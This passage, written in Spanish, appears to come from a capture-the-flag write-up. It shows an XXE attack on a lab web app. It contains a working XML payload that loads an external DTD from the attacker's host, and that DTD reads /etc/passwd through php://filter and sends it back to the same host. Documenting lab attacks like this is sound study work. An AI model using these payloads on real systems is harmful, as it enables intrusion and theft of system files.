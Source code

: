 ## XXE
Como podemos ver lo ha creado y ahora podemos acceder a una cuenta administradora con acceso a más páginas:
![[Pasted image 20240819194100.png]]

Si enumeramos las páginas encontramos un usuario con una *memo* peculiar:
![[Pasted image 20240819194155.png]]

Por lo que accedemos a la nueva página `/ultra-access-view/main.php`:
![[Pasted image 20240819194247.png]]

Si accedemos a su código fuente podemos ver estos comentarios:
![[Pasted image 20240819194338.png]]

Por lo que podemos probar de hacer una solicitud POST con una estructura XML:
```xml
<creds>
	<customer>test</customer>
	<password>test</password>
</creds>
```

Para ver si aparece "Welcome test!" en la web y se interpreta nuestro XML. Y como podemos ver se interpreta:
![[Pasted image 20240819223125.png]]

Por lo que podemos intentar apuntar a un DTD malicioso de mi máquina haciendo una solicitud con este código XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.1.21/malicious.dtd"> %xxe; ]>

<creds>
	<customer>
		test
	</customer>
</creds>
```

Nuestro DTD contendrá lo siguiente:
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.21/?file=%file;'>">
%eval;
%exfil;
```

Por lo que recibiremos el archivo indicado en base 64:
![[Pasted image 20240819223603.png]]

> [!NOTE] Para ver los archivos de la máquina he creado un pequeño script en bash: [[#Script XXE]]
